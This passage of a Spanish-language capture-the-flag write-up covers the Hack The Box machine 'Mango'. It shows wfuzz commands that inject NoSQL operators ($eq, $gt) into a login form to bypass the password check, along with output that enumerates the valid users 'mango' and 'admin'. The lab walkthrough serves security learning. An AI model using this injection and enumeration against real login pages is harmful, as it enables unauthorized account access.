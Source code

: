 ``` text
SWEET
JUICY
WELCOME
BACK
LOG
FOR
ORDERING
FORGOT
PASSWORD
LOGIN
```

Ahora usando `wfuzz` hacemos bruteforce de todos los posibles usuarios dentro del diccionario. Para la contraseña usamos una condición mayor a 1, aunque también hubiera funcionado con un "not equal":

``` text
tony@laptop:~/htb/mango$ wfuzz -w dict1.txt --sc 302 -d 'username%5B%24eq%5D=FUZZ&password%5B%24gt%5D=1&login=login' http://staging-order.mango.htb/index.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://staging-order.mango.htb/index.php
Total requests: 33

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000012:   302        209 L    403 W    4022 Ch     "mango"

Total time: 0.520117
Processed Requests: 33
Filtered Requests: 32
Requests/sec.: 63.44717
```

Descubrimos al usuario mango, porque ya saben, "creatividad". Extendí el ataque con otro diccionario y busque más usuarios:

``` text
tony@laptop:~/htb/mango$ wfuzz -w ~/git/SecLists/Usernames/xato-net-10-million-usernames.txt --sc 302 -d 'username%5B%24eq%5D=FUZZ&password%5B%24gt%5D=1&login=login' http://staging-order.mango.htb/index.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://staging-order.mango.htb/index.php
Total requests: 8295455

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000002:   302        209 L    403 W    4022 Ch     "admin"
000003736:   302        209 L    403 W    4022 Ch     "mango"
```